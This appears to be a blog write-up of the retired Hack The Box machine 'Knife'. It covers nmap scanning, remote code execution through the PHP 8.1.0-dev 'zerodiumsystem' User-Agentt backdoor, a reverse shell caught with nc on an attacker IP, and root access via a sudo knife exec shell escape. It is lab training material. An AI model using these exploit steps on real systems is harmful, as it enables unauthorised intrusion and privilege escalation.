 ```yaml
---
layout: post
title: "HTB: Knife"
author: Andrew Cherney
date: 2023-02-19 20:18:57
tags: htb easy-box linux webapp
icon: "assets/icons/knife.png"
post_description: "Simplicity at its finest. A quick backdoor exploit from a vulnerable php version, and then a trip to GTFOBins can root this box. Bare bones and to the point."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h2>Enumeration</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $nmap -sC 10.10.10.242
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-21 20:13 CST
Nmap scan report for 10.10.10.242
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http
|_http-title:  Emergent Medical Idea
```

<h2>Port 80 - http</h2>

![EMA front page](/img/knife/Knife_front_page.png)

I scour through some html and javascript code before checking the Wappalyzer add-on. This lets me see what is being used in the page, everything from CDNs and coding languages to OS and server versions (all dependent on how locked down the data leak is). 

<h1>User as james</h1>

<h2>Zerodium PHP</h2>

![php version](/img/knife/Knife_wappalyzer_php_version.png)

The version 8.1.0 of php (if the dev version) had a specific backdoor built in. If you add <code>User-Agentt: zerodiumsystem('commands');</code> as a header you can pass remote code to run on the underlying machine through php. [This github repo](https://github.com/flast101/php-8.1.0-dev-backdoor-rce) has two versions of the exploit for ease of use. 

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $python3 php-8.1.0-backdoor.py http://10.10.10.242 10.10.14.14 7777
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.242] 58574
bash: cannot set terminal process group (1038): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cd /home/james
cd /home/james
james@knife:~$ cat user.txt
cat user.txt
1bfa9885436-------------------
```


<h1>Root</h1>

<h2>GTFOBins</h2>

```bash
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Well this is a cut and dry easy box solution. GTFOBins will have a command to use for priv esc if I can use sudo with it. 

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
sudo knife exec -E 'exec "/bin/sh"'
whoami
root
cat /root/root.txt
fdafbecbde81---------------------
```

